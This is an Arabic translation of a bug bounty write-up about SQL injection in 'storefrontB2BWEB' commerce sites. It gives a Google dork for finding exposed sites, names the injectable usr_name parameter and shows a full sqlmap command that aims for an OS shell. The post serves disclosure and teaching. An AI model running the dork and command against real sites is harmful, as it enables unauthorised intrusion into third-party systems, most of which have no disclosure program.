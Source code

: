 ```yaml
---
layout: post
title: من ثغرة SQL Injection إلى لوحة الشرف
---
```


![Username](/images/blog/002/main.png)

يغفل العديد من الناس الذين يعملون في مجال (Bug Bounty الإبلاغ عن الثغرات) عن أهمية إستخدام (Google Dorks) وهو تكنيك بحث متقدم يساعدك على إيجاد المعلومات التي عادتا قد لا تجدها بسهولة في الموقع الإليكتروني .

ومسمى أخر ل (Google Dork) هو (Google Hacking) والذي يعني أيضا إيجاد معلومات من الصعب الوصول إليها بمجرد إستخدام كلمة بحث بسيطة في محرك البحث ويمكنك الإطلاع أكثر عن هذا الموضوع [من هنا](https://whatis.techtarget.com/definition/Google-dork-query)



موخرََا عثرت على (Google Dork) يمكنك من العثور على مواقع تجارية مصابة بثغرة (SQL Injection)
والمكتشف الأصلي لهذه الطريقة هو مختبر إختراق بإسم ratboy.
```
inurl:storefrontb2bweb
```
بمجرد كتابة هذه الجملة في محرك البحث نجد أنه هناك 4 صفح من النتائج ولكن للأسف أغلب المواقع المصابة بالثغرة لا تمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
ولكن لحسن الحظ وجدت موقع من تلك المواقع يمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
وال(Parameter) المصاب هو (username parameter) الذي يرجع خطأ (SQL) عندما نستخدم (علامة إقتباس Single Quotation).

![Username](/images/blog/002/2.jpeg)

يمكننا إستغلال تلك الثغرة بإستخدام أداة SQLMAP
```
python sqlmap.py -u"http://localhost/storefrontB2BWEB/login.do?setup_principal=true&action=prepare_forgot&login=true&usr_name=foo"
-p usr_name --dbms=mssql --level=5 --risk=3
--tamper=between,space2comment -o --random-agent --parse-errors
--os-shell --technique=ES
```
يمكننا إصلاح تلك الثغرة عن طريق (التأكد من المدخلات User Input Validation)

عندما أبلغت عن هذه الثغرة دخلت لوحة الشرف. ومنتهى أملي أن كل الشركات المصابة بهذه الثغرات تأخذ الخطوات اللازمة لإصلاح هذه المشكلة والأهم هو إيجاد وسيلة للإبلاغ عنها إذا وجدت


**إسم الكاتب :** [Jadek Mark](https://twitter.com/mase289)
**إسم المترجم :** [محمد ناصف](https://muhammadnasef.com/)
**تاريخ النشر :** 15 فبراير 2021
**رابط المقالة الأصلية :** [من هنا](https://medium.com/bugbountywriteup/from-sql-injection-to-hall-of-fame-96a08c869acd)